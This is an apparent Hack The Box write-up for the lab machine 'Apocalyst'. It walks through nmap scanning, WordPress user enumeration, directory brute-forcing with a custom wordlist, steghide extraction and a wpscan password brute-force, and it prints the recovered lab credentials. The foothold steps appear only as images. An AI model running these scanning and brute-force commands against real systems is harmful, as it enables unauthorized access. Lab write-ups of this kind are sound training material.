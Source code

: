# Hack the Box - Apocalyst

```CSS
Machine IP: 10.10.10.46
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.46 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.46
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```CSS
▶ nmap -sV -sC -p 22,80 10.10.10.46 -oN deep.nmap

Nmap scan report for 10.10.10.46
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fdab0fc922d5f48f7a0a2911b404dac9 (RSA)
|   256 7692390a57bdf0032678c7db1a66a5bc (ECDSA)
|_  256 1212cff17fbe431fd5e66d908425c8bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```

---

## HTTP
![image](https://user-images.githubusercontent.com/83878909/234799547-1b6562ae-e097-4a3a-9754-2e248dd220c4.png)

```CSS
echo "10.10.10.46 apocalyst.htb" >> /etc/hosts
```

![image](https://user-images.githubusercontent.com/83878909/234800289-380fc0b7-bc5b-4345-85f8-9bccb4587432.png)

![image](https://user-images.githubusercontent.com/83878909/234801910-0504a32c-a82c-42f7-9d3a-6bf60cd08204.png)

---

## WordPress
  - WPScan
```CSS
▶ wpscan --url http://apocalyst.htb --enumerate vt,tt,u,ap
```
![image](https://user-images.githubusercontent.com/83878909/234813681-91b0486b-2fd0-4c1b-91db-1cbc0e6aa921.png)
  - Username found, no other useful information was given by wpscan.
```CSS
▶ Username: falaraki
```

---

## Content Discovery
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234814248-b2ce6fa6-335f-47f0-9150-4a97ce13774e.png)


### Custom Wordlist
```CSS
▶ cewl http://apocalyst.htb -w apocalyst.lst
```

### Content Discovery - Custom Worlist
  - Gobuster
```CSS
▶ gobuster dir -u http://apocalyst.htb -w apocalyst.lst --add-slash --threads 50 --exclude-length 157
```
![image](https://user-images.githubusercontent.com/83878909/234815066-2eb4c565-5800-44b4-9843-a0f45ac84797.png)
![image](https://user-images.githubusercontent.com/83878909/234815258-c8eff383-2cde-41c5-84fb-304e757ca0bf.png)

---

## Stegnography
  - Extract data from the image.
```CSS
▶ steghide extract -sf image.jpg
```
  - Wordlist
![image](https://user-images.githubusercontent.com/83878909/234817333-503e3c8e-a882-48f7-9560-74d930d56867.png)

---

## WordPress Credentials Brute-Force
  - WPScan to brute-force user `falaraki`'s password.
```CSS
▶ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
```
![image](https://user-images.githubusercontent.com/83878909/234819624-ea7096ae-0f37-4a32-bace-63ff7bfb7b91.png)
```CSS
Credentials: falaraki:Transclisiation
```

---

## WordPress Command Injection
  - Login to Wordpress.
![image](https://user-images.githubusercontent.com/83878909/234836050-ea4e4edf-7f91-43d5-b761-fdd6f0d2376b.png)

![image](https://user-images.githubusercontent.com/83878909/234836839-e3e1e0c4-d800-4e97-bf9b-e2a6343295c1.png)
![image](https://user-images.githubusercontent.com/83878909/234837446-329b574b-932d-4681-84f2-4bb6e3236f31.png)

---

## Initial Foothold
![image](https://user-images.githubusercontent.com/83878909/234841296-52b80dfc-6a73-4a0b-8045-ceba14e57f5e.png)
![image](https://user-images.githubusercontent.com/83878909/234841446-6dc35a83-0d2a-48e8-9254-fcd15073189b.png)
